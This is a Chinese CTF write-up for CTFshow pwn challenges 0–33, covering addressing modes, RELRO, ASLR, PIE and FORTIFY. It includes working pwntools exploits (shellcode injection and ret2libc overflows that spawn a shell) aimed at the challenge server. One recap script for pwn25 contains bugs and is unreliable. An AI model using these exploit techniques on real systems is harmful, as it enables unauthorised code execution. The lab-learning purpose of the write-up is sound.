# CTFSHOW

# Test_your_nc

## 0. pwn00

测试ssh111

```bash
ssh ctfshow@pwn.challenge.ctf.show -p28252
```


然后输入密码123456即可。

然后出来一堆东西，看最后就可以了


常理直接`ls /`

然后`cat ctfshow_flag`

`ctfshow{b21547d4-0479-4400-8f6a-6df26cda3505}`


注意一点，就是python的pwn好像并不提供ssh连接的服务


## 1. pwn01


没啥好说的，题目描述都叫我们直接连上就可以了，实际打开ida也能看到它的后门函数是啥：


nc连接也可以，或者开始学习python-pwn也是可以的

```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28272

r = remote(ip,port)

r.interactive()
```


结果


flag：

```
ctfshow{3d23b4d8-237a-4a15-8871-1f6b10468949}
```


## 2. pwn02


这次难度提升一丢丢，开始给个shell，但是需要自己去获取flag


还是ida，但是发现没啥需要注意的，就是直接给flag，和你自己去find的区别嘛


还是上面的脚本，连上直接发送 `cat /ctfshow_flag` 即可

```
ctfshow{beaabaab-8c75-4a93-a6f1-f163ab6f7a15}
```


## 3. pwn03


还是一样递增，让你选择后门函数，提升你的分辨能力

一眼瞄中system_func();

点进去，果然

```
int system_func()
{
  return system("cat /ctfshow_flag");
}
```


那就连上然后选择题，选6呗

提交flag


## 4 pwn04

或许需要先得到某个神秘字符

简单的代码审计，ida查看，main函数里头就是所有了：


显然 s1 = "CTFshowPWN"

然后你输入的s2 要等于 s1

显而易见：

直接连接输入，得到flag


```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28297

r = remote(ip,port)

r.recvuntil(b'find the secret !')
r.sendline(b'CTFshowPWN') 

r.interactive()
```


连接上直接cat就拿到flag了


# 前置基础

## 5. pwn05

考察基础知识

运行此文件，将得到的字符串以ctfshow{xxxxx}提交。

如：运行文件后 输出的内容为 Hello_World

提交的flag值为：ctfshow{Hello_World}

**注：计组原理题型后续的flag中地址字母大写**


linux环境下直接运行即可

```
ctfshow{Welcome_to_CTFshow_PWN}
```


## 6. pwn06（立即寻址）

立即寻址方式结束后eax寄存器的值为？

文件还是05的文件，所以就不用重新下载了

这次考察一点汇编的寄存器知识


什么叫做立即寻址，学过汇编的都知道，好像8051寻址有5种还是多少，立即寻址就是

such as：

```
mov eax,5
add eax,10
```

操作数为立即数就叫做立即寻址


我们直接看寻址完的值就可以了

拖进ida看汇编即可

题目：

```asm
mov     eax, 11
add     eax, 114504
sub     eax, 1
```


11 + 114504 - 1 = 114514


恶臭的数字


```
ctfshow{114514}
```


## 7. pwn07（寄存器寻址）

还是一样的文件，这次看edx的寄存器寻址方式结束后edx寄存器的值

什么叫做寄存器寻址方式

直白理解就是把一个寄存器上的值mov到另一个寄存器上

such as：

```asm
mov edx, eax
```


题目：

```asm
mov     ebx, 36Dh
mov     edx, ebx
```

不是很能理解出题规范，上一道题就十进制，这一道题就十六进制


直接

```
ctfshow{0x36D}
```


## 8. pwn08（直接寻址）

直接寻址方式结束后ecx寄存器的值为？

就是寄存器直接去访问某个地址内存的值

such as：

```asm
mov ecx, [1000h]
```


题目：

```asm
mov     ecx, dword_80490E8
```

```asm
.data:080490E8 ; Segment type: Pure data
.data:080490E8 ; Segment permissions: Read/Write
.data:080490E8 _data           segment dword public 'DATA' use32
.data:080490E8                 assume cs:_data
.data:080490E8                 ;org 80490E8h
.data:080490E8 dword_80490E8   dd 636C6557h            ; DATA XREF: LOAD:0804805C↑o
.data:080490E8                                         ; start
```


答案直接：

```
ctfshow{0x80490E8}
```


## 9. pwn09（寄存器间接寻址）

寄存器间接寻址方式结束后eax寄存器的值为？

寄存器间接寻址，bx存放操作数在内存中的偏移地址，假设bx寄存器中的值为1000h，那么这条指令就是将内存地址为1000h的16位数据传送到ax中

such as

```asm
mov ax, [bx]
```


题目：

```asm
mov     esi, offset dword_80490E8
mov     eax, [esi]
```


由上可知，该处数据为：

```asm
.data:080490E8 dword_80490E8   dd 636C6557h    
```


则：

```
ctfshow{0x636C6557}
```


## 10. pwn10（寄存器相对寻址）

寄存器相对寻址方式结束后eax寄存器的值为？

such as

其实就是相当于原本的间接寻址加上地址偏移量而已

```asm
mov AX, [BX + 5]
```


题目：

```asm
mov     ecx, offset dword_80490E8
add     ecx, 4
mov     eax, [ecx]
```


```asm
.data:080490E8 ; ===========================================================================
.data:080490E8
.data:080490E8 ; Segment type: Pure data
.data:080490E8 ; Segment permissions: Read/Write
.data:080490E8 _data           segment dword public 'DATA' use32
.data:080490E8                 assume cs:_data
.data:080490E8                 ;org 80490E8h
.data:080490E8 dword_80490E8   dd 636C6557h            ; DATA XREF: LOAD:0804805C↑o
.data:080490E8                                         ; start+14↑r ...
.data:080490EC aOmeToCtfshowPw db 'ome_to_CTFshow_PWN',0
.data:080490EC _data           ends
.data:080490EC
.data:080490EC
.data:080490EC                 end start
```


所以就为：

```
ctfshow{ome_to_CTFshow_PWN}
```


## 11. pwn11（基址变址寻址）

基址变址寻址方式结束后的eax寄存器的值为？

such as：

指令的功能是将内存地址为`BX`寄存器中的值与`SI`寄存器中的值相加后的内存单元中的一个字（16 位数据）传送到`AX`寄存器中。

```asm
mov AX, [BX + SI]
```


题目：

```asm
mov     ecx, offset dword_80490E8
mov     edx, 2
mov     eax, [ecx+edx*2]
```


所以答案还是：

```
ctfshow{ome_to_CTFshow_PWN}
```


## 12. pwn12（相对基址变址寻址）

相对基址变址寻址方式结束后eax寄存器的值为？

such as：

这条指令的功能是将内存地址为`BX`寄存器中的值加上`SI`寄存器中的值再加上`10`后的内存单元中的一个字（16 位数据）传送到`AX`寄存器中。

```asm
mov AX, [BX + SI + 10]
```


题目：

```asm
mov     ecx, offset dword_80490E8
mov     edx, 1
add     ecx, 8
mov     eax, [ecx+edx*2-6]
```


所以答案还是：

```
ctfshow{ome_to_CTFshow_PWN}
```


## 13. pwn13（.c编译）

如何使用GCC？编译运行后即可获得flag

终于通过了上述诸多寻址的学习

单个flag.c文件的编译，你甚至可以使用devcpp之类的工具进行编译

这里直接gcc学习

```
gcc -o output_file -o flag.c
```


然后运行output_file即可

```
ctfshow{hOw_t0_us3_GCC?}
```


额外，编译两个函数定义交叉的，生成一个可执行文件

```
gcc -o output_file main.c func.c
```


还可以细化编译流程，分别生成预处理、编译、汇编、链接等中间文件

-E 预处理

-S 编译

-o 生成目标文件

gcc自动完成编译，但是如果多个.o文件，

```
gcc -o output_file main.o func.o
```


## 14. pwn14（编译运行）

请你阅读以下源码，给定key为”CTFshow”，编译运行即可获得flag

源码如下：

```c
[[include]] <stdio.h>
[[include]] <stdlib.h>

[[define]] BUFFER_SIZE 1024

int main() {
    FILE *fp;
    unsigned char buffer[BUFFER_SIZE];
    size_t n;
    fp = fopen("key", "rb");
    if (fp == NULL) {
        perror("Nothing here!");
        return -1;
    }
    char output[BUFFER_SIZE * 9 + 12]; 
    int offset = 0;
    offset += sprintf(output + offset, "ctfshow{");
    while ((n = fread(buffer, sizeof(unsigned char), BUFFER_SIZE, fp)) > 0) {
        for (size_t i = 0; i < n; i++) {
            for (int j = 7; j >= 0; j--) {
                offset += sprintf(output + offset, "%d", (buffer[i] >> j) & 1);
            }
            if (i != n - 1) {
                offset += sprintf(output + offset, "_");
            }
        }
        if (!feof(fp)) {
            offset += sprintf(output + offset, " ");
        }
    }
    offset += sprintf(output + offset, "}");
    printf("%s\n", output);
    fclose(fp);
    return 0;
}

```


啥都别想了，直接在当前目录下面新建记事本，输入CTFshow，然后重命名为key。gcc编译然后执行可执行文件就可以有答案了


有点奇怪，我跑出来的结果是这个，但是答案是其他的，直接提交把：

```
ctfshow{01000011_01010100_01000110_01110011_01101000_01101111_01110111}
```

有点奇怪，其他人提交的flag和我跑出来的多了一位，CTFshow总共就7位


flag：

```
ctfshow{01000011_01010100_01000110_01110011_01101000_01101111_01110111_00001010}
```


## 15. pwn15（汇编编译）

编译汇编代码到可执行文件，即可拿到flag

使用nasm


```bash
nasm -f elf64 flag.asm -o flag.o  [[生成目标文件flag]].o
ld -s -o flag flag.o   [[生成可执行文件flag，-s表示在可执行文件中去掉符号表和调试信息，使得可执行文件更小]]
./flag    [[运行可执行文件flag]]
```

先生成.o文件，再进行链接


```
ctfshow{@ss3mb1y_1s_3@sy}
```


## 16. pwn16（.s编译）

使用gcc将其编译为可执行文件

```bash
gcc -o output flag.s
```


然后执行

```
ctfshow{daniuniuda}
```


## 17. pwn17

有些命令好像有点不一样？

不要一直等，可能那样永远也等不到flag


可以看到如果case 3的话要等很久，这肯定不是正解

所以我们要case2，然后在buf里面写入/bin/sh即可


```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28119

r = remote(ip,port)

r.recvuntil(b'choose:(1.2.3.4 or 5)')
r.sendline(b'2') 

r.recvuntil(b' directiry you want?)')
r.sendline(b'/bin/sh') 

r.interactive()
```


然后ls，cat ctf* 即可

```
ctfshow{74ed219d-73af-47b0-88e1-2b8d2a0da210}
```


## 18. pwn18（>和>>）

仔细看看源码，或许有惊喜

假作真时真亦假，真作假时假亦真


关键源码：

```c
  puts("Which is the real flag?");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 9 )
    fake();
  else
    real();
  system("cat /ctfshow_flag");
```


```c
int fake()
{
  return system("echo 'flag is here'>>/ctfshow_flag");
}
```


```c
int real()
{
  return system("echo 'flag is here'>/ctfshow_flag");
}
```


一定要看清楚区别

这里直接进入fake函数即可

```
>  覆写
>> 追加
```


```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28121

r = remote(ip,port)

r.recvuntil(b'flag?')
r.sendline(b'9') 

r.interactive()
```


## 19. pwn19（linux回显>&0）

关闭了输出流，一定是最安全的吗？


linux环境中文件描述符`0`代表标准输入（stdin）

`cat <&0`表示让`cat`命令从标准输入读取数据。


关闭输出流就是无回显，我们直接重定向来进行回显 `>&0`

```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28207

r = remote(ip,port)

r.recvuntil(b'flag!')
r.sendline(b'cat ctf*>&0') 

r.interactive()
```


## 20. pwn20（.got和.got.plt）

提交ctfshow{【.got表与.got.plt是否可写(可写为1，不可写为0)】,【.got的地址】,【.got.plt的地址】}

例如 .got可写.got.plt表可写其地址为0x400820 0x8208820

最终flag为ctfshow{1_1_0x400820_0x8208820}


若某个表不存在，则无需写其对应地址

如不存在.got.plt表，则最终flag值为ctfshow{1_0_0x400820}


直接拖进ida里面，快捷键Ctrl + S


看表说话


pwnenv环境

```bash
checksec --file=pwn     [[较低版本的checksec只需要输入checksec]] pwn即可
readelf -S pwn
```


当RELRO为Partial RELRO时，表示.got不可写而.got.plt可写。
当RELRO为FullRELRO时，表示.got不可写.got.plt也不可写。
当RELRO为No RELRO时，表示.got与.got.plt都可写。


所以答案为：

```
ctfshow{1_1_0x600f18_0x600f28}
```

出题人好奇怪啊，前面又说同一大写，现在正确的flag又要小写才能提交


## 21. pwn21（.got和.got.plt）

还是一样，下载附件


Ctrl + S


还是一样查

```
checksec --file=pwn     [[较低版本的checksec只需要输入checksec]] pwn即可
readelf -S pwn
```





当RELRO为Partial RELRO时，表示.got不可写而.got.plt可写。
当RELRO为FullRELRO时，表示.got不可写.got.plt也不可写。
当RELRO为No RELRO时，表示.got与.got.plt都可写。


最终答案

```
ctfshow{0_1_0x600ff0_0x601000}
```


附带一张图，记忆就方便了，full顾名思义就是全部不可以写，no就是没有，partial就是部分，那是哪一个部分呢，就是靠近用户的这一部分.plt


## 22. pwn22（.got和.got.plt）

题目描述：

提交ctfshow{【.got表与.got.plt是否可写(可写为1，不可写为0)】,【.got的地址】,【.got.plt的地址】}

例如 .got可写.got.plt表可写其地址为0x400820 0x8208820

最终flag为ctfshow{1_1_0x400820_0x8208820}

若某个表不存在，则无需写其对应地址

如不存在.got.plt表，则最终flag值为ctfshow{1_0_0x400820}


个人而言，还是比较倾向于拖进ida里面看地址，因为更加友好

还是一样checksec查看它的防护情况


全不可写

0_0


```
ctfshow{0_0_0x600fc0}
```

地址又变成小写的，奇奇怪怪

提交就是flag


## 23. pwn23

这里就开始溢出的学习了

只能使用ssh连接感觉少点味道的

直接ida分析

发现关键在这里

```
  puts("How to input ?");
  if ( argc > 1 )
    ctfshow((char *)argv[1]);
```


学过C语言的都知道这是让我们去运行可执行文件的时候需要传一个参数进去，才会进到ctfshow函数

```c
char *__cdecl ctfshow(char *src)
{
  char dest[58]; // [esp+Ah] [ebp-3Eh] BYREF

  return strcpy(dest, src);
}
```


看我们要溢出到返回函数那里去，那需要填充的大小如下：

```
0x3E + 0x04
```


如何可能都不需要我们跳了，直接就打印flag


这里重点，看其他人的提示：

==signal(11, (__sighandler_t)sigsegv_handler);将信号 SIGSEGV（段错误）的处理程序设置为 sigsegv_handler。当程序收到 SIGSEGV 信号时，将会调用 sigsegv_handler 函数来处理这个信号。==

刚好sigsegv_handler是输出flag

所以这边我们就直接溢出到返回函数就直接输出flag了


直接python打印出来，不会有人手写吧不会吧


```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


连接ssh，你可以ls /   然后cat来看，发现是权限不允许的


所以还得是pwn

```
./pwnme aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


```
ctfshow{12e9b528-e911-487c-9783-80f4538d8086}
```


## 24. pwn24（shellcraft）

你可以使用pwntools的shellcraft模块来进行攻击


main函数找关键函数


然后发现无法进入ctfshow函数里面，直接看汇编，直接找read


查程序


然后直接写程序，这里有提示shellcraft模块，因为这里一没有system函数，而没有/bin/sh，三没有scanf，四没有buf，有的只有read


```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28225
context.arch = 'i386'

r = remote(ip,port)

shellcode = asm(shellcraft.sh())  

r.sendline(shellcode) 

r.interactive()
```


注意这里可能缺少asm的编译库，你可以选择安装`binutils` ，你也可以放在linux或者pwnenv里面运行就可以了，或者你可以直接把这个asm记下来，反正都不会变

登上去直接就拿到flag了

```
ctfshow{6a50c6fd-c7c0-4db1-ac1b-1e1037e4de98}
```


## ==25. pwn25（ret2libc）==

题目描述：

开启NX保护，或许可以试试ret2libc


什么叫做nx保护呢？

NX（No-Execute）保护，也被称为EDP（Data Execution Prevention），防止恶意代码在数据存储区域（堆栈）中被执行

NX 保护通过将内存区域标记为可执行（通常是代码段）和不可执行（如数据段）来阻止这种情况。当处理器执行程序时，它会检查内存地址是否被标记为可执行。如果试图执行一个被标记为不可执行的内存区域中的指令，处理器会触发一个异常，从而阻止恶意代码的执行。

返回导向编程或者其他来绕过NX保护


什么叫做ret2libc？

- ret2libc（Return - to - libc）是一种漏洞利用技术，主要用于绕过一些安全保护机制（如 NX 保护），在存在缓冲区溢出等漏洞的程序中获取系统控制权或者执行特定的函数。
- 在现代操作系统中，程序通常会链接到一些共享库（如 libc.so，包含了 C 语言标准库函数，如`system()`、`printf()`等）。这些共享库在内存中有固定的加载地址范围，并且其中的函数地址是已知的（相对固定）。
- 当程序存在缓冲区溢出漏洞时，攻击者不再是像传统的方式那样将 shellcode（恶意代码）直接注入到栈等数据区域并执行（因为有 NX 保护，数据区域不可执行），而是通过溢出缓冲区，修改函数的返回地址（`ret`指令地址），使程序的执行流跳转到`libc`库中的函数。
- 攻击者可以将返回地址修改为`system()`函数的地址，并且在合适的位置（函数参数位置）构造一个指向`/bin/sh`字符串的指针，这样当`system()`函数被调用时，就相当于执行了`system("/bin/sh")`，从而获取了系统的控制权。


~~不信邪-~~ ，主要是要养成一个好习惯，拿到pwn就先去check一下


查函数

```bash
objdump -d -j .plt pwn
```


查询pwn文件的plt表里面的函数，其实ida也是可以查的


发现有puts函数和write函数

看writeup都是用puts函数，所以学习就用puts吧，如果可以后面尝试一下用write


然后就可ls cat flag

```
ctfshow{f6e86b0c-f1b4-45fb-9711-721785a54f62}
```


可以看到信息

```python
puts_plt = elf.plt['puts']      # plt表中的puts函数地址，为的就是溢出到返回函数那里可以执行puts
main_addr = elf.symbols['main'] # 找到main函数的地址
puts_got = elf.got['puts']      # got表中puts函数的地址
print(hex(puts_plt))
print(hex(main_addr))
print(hex(puts_got))
0x8048390
0x804862d
0x804a010
```

其实上述信息，ida里面可以看到：

main函数入口：


plt中puts函数入口地址


got表中puts函数的地址


```python
puts_addr = u32(p.recv(4))          # 接收地址，puts函数在内存中的地址
print(hex(puts_addr))
0xf7d91360
```


程序：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28215


p = remote(ip,port)  
elf = ELF('./pwn')

puts_plt = elf.plt['puts']      # plt表中的puts函数地址，为的就是溢出到返回函数那里可以执行puts
main_addr = elf.symbols['main'] # 找到main函数的地址
puts_got = elf.got['puts']      # got表中puts函数的地址

payload0 = b'a' * (0x88 + 0x04) + p32(puts_plt) + p32(main_addr)+p32(puts_got)
# 第一次溢出，puts输出puts函数在内存中的地址

p.sendline(payload0)

puts_addr = u32(p.recv(4))          # 接收地址，puts函数在内存中的地址

libc = LibcSearcher('puts', puts_addr)      # 根据内存中的地址寻找相应libc版本中的puts函数的地址
libc_base = puts_addr - libc.dump('puts')   # 内存中的puts函数地址减去libc中的puts函数地址就得到libc的基地址
system_addr = libc_base + libc.dump('system')   # 查找内存中的system地址
binsh_addr = libc_base + libc.dump('str_bin_sh')    # 查找内存中的"/bin/sh"字符串地址
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)    # 填充system函数之后的返回地址，要溢出到返回地址处，所以为4

p.sendline(payload)
p.interactive()
```


- **第一步：建立连接与获取函数地址信息**
  - 使用`remote`函数连接到指定的远程服务器（`ip`和`port`）。
  - 通过`ELF`函数解析本地的`pwn`可执行文件，获取`puts`函数在`plt`表中的地址（`puts_plt`）、`main`函数的地址（`main_addr`）和`puts`函数在`got`表中的地址（`puts_got`）。
- **第二步：第一次缓冲区溢出（信息泄露）**
  - 构造`payload0`，它由填充字节（`0x88 + 0x04`个`a`）、`puts_plt`地址、`main_addr`地址和`puts_got`地址组成。这里填充字节是为了覆盖栈上的返回地址，使得程序在从当前函数返回时，会跳转到`puts_plt`地址执行`puts`函数，并且将`puts_got`的地址作为参数传递给`puts`函数，从而泄露`puts`函数在内存中的实际地址。
  - 使用`sendline`函数将`payload0`发送到远程服务器，触发缓冲区溢出和`puts`函数执行，然后接收并存储`puts`函数在内存中的地址（`puts_addr`）。
- **第三步：计算`libc`基地址和目标函数地址**
  - 使用`LibcSearcher`根据泄露的`puts`地址来查找相应`libc`版本中的`puts`函数地址，然后计算出`libc`的基地址（`libc_base`）。
  - 根据`libc`基地址计算出`system`函数地址（`system_addr`）和`/bin/sh`字符串地址（`binsh_addr`）。
- **第四步：第二次缓冲区溢出（获取 shell）**
  - 构造`payload`，同样由填充字节（`0x88 + 0x04`个`a`）、`system_addr`、填充字节（4 个`a`）和`binsh_addr`组成。这次溢出的目的是让程序在返回时跳转到`system`函数，并将`/bin/sh`字符串的地址作为参数传递给`system`函数，从而获取远程服务器的 shell。
  - 使用`sendline`函数将`payload`发送到远程服务器，触发缓冲区溢出和`system`函数执行，最终获取交互式 shell。


程序思路梳理

```python
from pwn import *
from LibcSearcher import *

context(arch='i386',os='linux',log_level='debug')

ip = 'pwn.challenge.ctf.show'
port = 28122

r = remote(ip,port)
elf = ELF(./pwn)

puts_plt = elf.plt['puts']
main_addr = elf.plt['main']
puts_got = elf.got['puts']

payload0 = b'a'* (0x88 + 0x04) + p32(puts_plt) + p32(main_addr) + p32(puts_got)
r.sendline(payload0)

puts_addr = u32(r.recv(4))
libc = LibSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('main')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload1 = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a' * 4 + p32(binsh_addr)
r.sendline(payload1)
r.interactive()
```


## 26. pwn26（设置ASLR）

设置好 ASLR 保护参数值即可获得flag

为确保flag正确，本题建议用提供虚拟机运行


什么是ASLR：

ASLR（Address Space Layout Randomization）是一种计算机安全机制，旨在增加恶意攻击者在系统上成功执行攻击的难度。ASLR通过随机化进程的地址空间布局来防止攻击者依赖于已知的内存地址，从而增加了攻击的复杂性。


ASLR可以随机化以下组件的位置：

1. 栈：包含函数调用和局部变量的区域。
2. 堆：用于动态分配内存的区域。
3. 共享库：动态链接的共享库的加载地址。
4. 代码段：包含程序指令的区域。


/proc/sys/kernel/randomize_va_space 是一个控制和查看ASLR的接口文件。


/proc/sys/kernel/randomize_va_space 可以具有以下值：

0：表示 ASLR 被禁用。在这种情况下，进程的地址空间将不会随机化，各个组件的地址位置将是固定的。

1：表示 ASLR 已启用，但只会对共享库的地址进行随机化。即在每次运行时，共享库的加载地址会发生变化，而进程的栈、堆和代码段的地址位置仍然是固定的。

2：表示 ASLR 已启用，对进程的地址空间中的所有组件（包括栈、堆、共享库和代码段）进行完全随机化。这是最安全的设置，因为每次运行时，进程的所有组件的地址位置都会发生变化。


如果直接运行，出来的是fake flag

将0 写入 /proc/sys/kernel/randomize_va_space 再运行就可以得到真的flag了


懒得装另一台虚拟机了，直接看图即可，提交其他人的writeup


真正的flag

```
ctfshow{0x400687_0x400560_0x603260_0x7ffff7fd64f0}
```


## 27. pwn27（设置ASLR）

与26题一样

```
ctfshow{0x400687_0x400560_0x603260}
```


## 28. pwn28（设置ASLR）

这一题设不设置都一样，直接运行就出来了


## 29. pwn29（PIE）

ASLR和PIE开启后，


PIE是什么？

PIE（Position - Independent Executable，位置无关可执行文件）是一种编译选项，用于增强程序的安全性。在传统的可执行文件中，程序的代码段、数据段等在内存中的位置是固定的。而 PIE 可执行文件在每次加载时，其在内存中的位置（包括代码段、数据段等）会==随机化==。

当一个程序被编译为 PIE 时，编译器会使用==相对寻址==（而不是绝对寻址）来生成指令。例如，对于函数调用或者数据访问，不是使用固定的内存地址，而是使用相对于程序当前加载位置的偏移量。

这就使得攻击者更难预测程序内部的地址，因为这些地址在每次程序运行时都会发生变化。


~~不信邪~~  check一下


全开！！

直接运行即可，因为这个是带我们认识一下PIE


As you can see, the portection has been fully turned on and the address has been completely randomized!

可以再运行一次再截图，可以发现地址啥的都变了


flag：

```
ctfshow{Address_Space_Layout_Randomization&&Position-Independent_Executable_1s_C0000000000l!}
```


## 30. pwn30

关闭PIE后

程序的基地址固定，攻击者可以更容易地确定内存中函数和变量的位置。


老规矩，check一下


开了nx


看了一下源代码，感觉很前面某道题一模一样啊，照搬25题，秒了

怎么题目都能一样的！！！！虽然学习的知识点不一样，但这是一块钱啊！类目

代码：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28117
p = remote(ip,port)  
elf = ELF('./pwn')
puts_plt = elf.plt['puts']      
main_addr = elf.symbols['main']
puts_got = elf.got['puts']     
payload0 = b'a' * (0x88 + 0x04) + p32(puts_plt) + p32(main_addr)+p32(puts_got)
p.sendline(payload0)
puts_addr = u32(p.recv(4))         
libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')   
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)
p.sendline(payload)
p.interactive()
```


```
ctfshow{b1564d42-3ad4-46e6-8f54-37ae561602e1}
```


## ==31. pwn31（ASLR、PIE绕过）==

开启 ASLR 和 PIE 的情况下，仍可能被利用


checksec一下


开了地址随机化和PIE，内存中的位置（包括代码段、数据段等）会==随机化==。

所以我们之前使用正常的栈溢出无法直接完成，所以考虑以下方法。

虽然程序每次运行的基址会变,但程序中的各段的相对偏移是不会变的，只要泄露出来一个地址，通过IDA静态的看他的程序地址,就能算出基址,从而实现绕过。


ida打开

发现一个hint


输出main函数的地址，这是一个做题的方向


然后你打印出来的main函数地址，是当前内存里面的main函数地址，然后减去elf里面的main函数地址，就可以算程序的基地址（函数地址的偏移量）

所以有

```python
main_real_addr = int(p.recv().strip(), 16)

base_addr = main_real_addr - elf.sym['main']   
```


再看到一个ctfshow函数，点进去，发现这里应该就是我们要溢出的点了


可以看到read函数，我们可以注入0x100 的char型，那也就是256，然后双击buf

看到函数栈的情况：


看到buf到返回函数的长度总共是 0x88 + 0x04 = 0x8C    也就是140

但第一次payload不需要直接到返回函数里头，因为我们什么东西都没有，先跳到ebx,然后再填充到返回函数


使用got表中的puts函数打印出当前内存里puts函数的真实地址，0x1fc0可以从ida里面查找，就是got表的开始地址，加上偏移就是内存中的地址


`elf.sym['puts']`可以获取`puts`函数在 ELF 文件中的地址。   同理也是可以在ida里面看到的

`elf.got['puts']`可以获取`puts`函数在`GOT`中的地址。


另知：

- `got`（Global Offset Table 的缩写）即全局偏移表。在动态链接的程序中，`GOT`用于存储外部函数（如`libc`中的函数）在内存中的实际地址。当程序调用一个外部函数时，它会通过`GOT`找到该函数的实际运行时地址。这是因为在程序编译时，外部函数的地址是未知的（因为动态链接库的加载地址可能会变化），`GOT`就起到了在运行时解析函数真实地址的作用。

```python
puts_plt = base_addr + elf.sym['puts']
puts_got = base_addr + elf.got['puts']

ebx = base_addr + 0x1fc0
payload0 = b'a' * (132) + p32(ebx) + b'a'*4 + p32(puts_plt) + p32(main_real_addr)+p32(puts_got)
p.sendline(payload0)
```


获取puts的地址

```python
puts_addr = u32(p.recv(4))    
```


一一找到内存中的地址：

```python
libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')
ctfshow_addr = base_addr + elf.sym['ctfshow']
```


直接溢出到返回函数，溢出到内存中的system函数

```python
payload = b'a' * (0x88 + 0x04) + p32(system_addr) + p32(ctfshow_addr) + p32(binsh_addr)
p.sendline(payload)
```

中间加上 `p32(ctfshow_addr)` 是为了确保在执行 `system` 函数后，程序能正常返回到一个合适的位置。


这里writeup使用puts做


```python
# *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28135

p = remote(ip,port)  
elf = ELF('./pwn')

main_real_addr = int(p.recv().strip(), 16)

base_addr = main_real_addr - elf.sym['main']   

puts_plt = base_addr + elf.sym['puts']
puts_got = base_addr + elf.got['puts']

ebx = base_addr + 0x1fc0
payload0 = b'a' * (132) + p32(ebx) + b'a'*4 + p32(puts_plt) + p32(main_real_addr)+p32(puts_got)
p.sendline(payload0)

puts_addr = u32(p.recv(4)) 

libc = LibcSearcher('puts', puts_addr)      
libc_base = puts_addr - libc.dump('puts')   
system_addr = libc_base + libc.dump('system') 
binsh_addr = libc_base + libc.dump('str_bin_sh')
ctfshow_addr = base_addr + elf.sym['ctfshow']

payload = b'a' * (0x88 + 0x04) + p32(system_addr) + p32(ctfshow_addr) + p32(binsh_addr)
p.sendline(payload)
p.interactive()
```


- **获取程序基地址**：
  从服务器接收数据，将其转换为十六进制整数，得到`main`函数在目标内存中的真实地址。然后通过这个真实地址与本地`ELF`文件中`main`函数地址相减，计算出程序在目标服务器中的基地址。
- **计算关键函数和地址信息**：
  基于计算出的基地址，求出`puts`函数在程序中的`PLT`（过程链接表）地址、`GOT`（全局偏移表）地址以及`ctfshow`函数的地址，同时计算出`ebx`的值，该值用于后续栈溢出利用中控制程序执行流程。
- **构造和发送第一个 payload 用于信息泄露**：
  构造`payload0`，先填充`132`个`a`字符（用于填充栈空间到合适位置），接着是`ebx`的值、额外填充、`puts`函数的`PLT`地址、`main`函数的真实地址和`puts`函数的`GOT`地址。将这个`payload`发送到服务器，目的是通过`puts`函数泄露`puts`在内存中的实际地址。
- **接收泄露信息并计算`libc`相关地址**：
  从服务器接收`4`个字节数据并转换为`32`位无符号整数，得到`puts`地址。利用`LibcSearcher`根据`puts`地址查找`libc`版本，进而计算出`libc`基地址，再根据`libc`基地址计算出`system`函数和`/bin/sh`字符串在内存中的地址。
- **构造和发送第二个 payload 获取 shell**：
  构造`payload`，填充一定长度数据后，包含`system`函数地址、`ctfshow`函数地址（可能用于返回地址相关的控制）和`/bin/sh`字符串地址。发送此`payload`到服务器，最后进入交互模式，期望获取目标服务器的 shell，实现对目标的控制。


## 32. pwn32（Fortify=0）

FORTIFY_SOURCE=0：

禁用 Fortify 功能。 不会进行任何额外的安全检查。 可能导致潜在的安全漏洞。


习惯不要忘记，虽然很确定考的是Fortify的知识，但是check一下是做题的前提。

ida打开：


看到最下面的undefined，点进去，确定是这里了，运行到这里的前提的我们传进去的参数要大于4位


ssh连接上去：

```
ssh ctfshow@pwn.challenge.ctf.show -p28198
```


然后

```
./pwnme a a a a
```

就拿到flag了


```
ctfshow{28b289ad-2415-472d-b0a1-28eb002d797a}
```


## 33. pwn33（Fortify=1）

FORTIFY_SOURCE=1：

启用 Fortify 功能的基本级别。 在编译时进行一些安全检查，如缓冲区边界检查、格式化字符串检查等。 在运行时进行某些检查，如检测函数返回值和大小的一致性。 如果检测到潜在的安全问题，会触发运行时错误，并终止程序执行。


check一下


可以看到 FORTIFY : Enabled

ida打开

还是main函数，我们已经知道undefined是执行函数，就不再赘述了


可以看到上题中的strcpy被替换为`__strcpy_chk`，memcpy被替换为`__memcpy_chk`，也加上了11LL的限制防止溢出，

这是第一级Fortify的特征

但对我们没啥作用


```
ssh ctfshow@pwn.challenge.ctf.show -p28297
```


还是

```
./pwnme a a a a
```


